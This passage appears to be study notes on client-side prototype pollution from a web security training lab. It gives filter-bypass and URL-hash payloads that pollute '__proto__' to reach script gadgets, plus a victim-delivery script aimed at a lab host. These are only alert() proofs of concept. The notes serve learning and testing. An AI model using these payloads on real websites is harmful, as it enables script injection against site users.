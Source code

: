 If bypassed, the script will be added to the page and the payload can be modified to execute an alert box. To find payloads, try look at the XSS cheat sheet to search for `script src`:

```js
/?a=b&c=d&__pro__proto__to__[transport_url]=data:text/javascript,alert()
```
# Prototype Pollution in External Libraries

Prototype pollution gadgets may occur in third-party libraries imported in. If so, it is recommended to use DOM Invader to identify sources and gadgets. It will be much quicker and ensure you won't miss vulnerabilities that may be tricky to notice.

DOM Invader checks the page for sources that allow you to add arbitrary properties to built-in prototypes. For example, it may identify potential techniques. If so, try testing the payload and check if it works via the Console:

![[DOM Invader PP PoC.png]]

Try creating a new object and checking if it inherits the test property:

```js
let myObject = {}
myObject.testproperty
```

![[Test Property.png]]

If it all works, try scanning for gadgets and check for any identified sinks and try checking the stack trace and the JavaScript file. Try exploiting it automatically and check it works. If so, try delivering it to the victim such as:

```html
<script>
location = "https://0a3700fa035c3df1818ac503001d0083.web-security-academy.net/#__proto__[hitCallback]=alert%281%29";
</script>
```

For manual methods, try adding properties via the URL by using a query string or a hash string:

```js
#__proto__.foo=bar
```

And try querying the object prototype:

```js
Object.prototype
```

If no success, try different syntax:

```js
#__proto__[foo]=bar
```

![[Source Identified.png]]
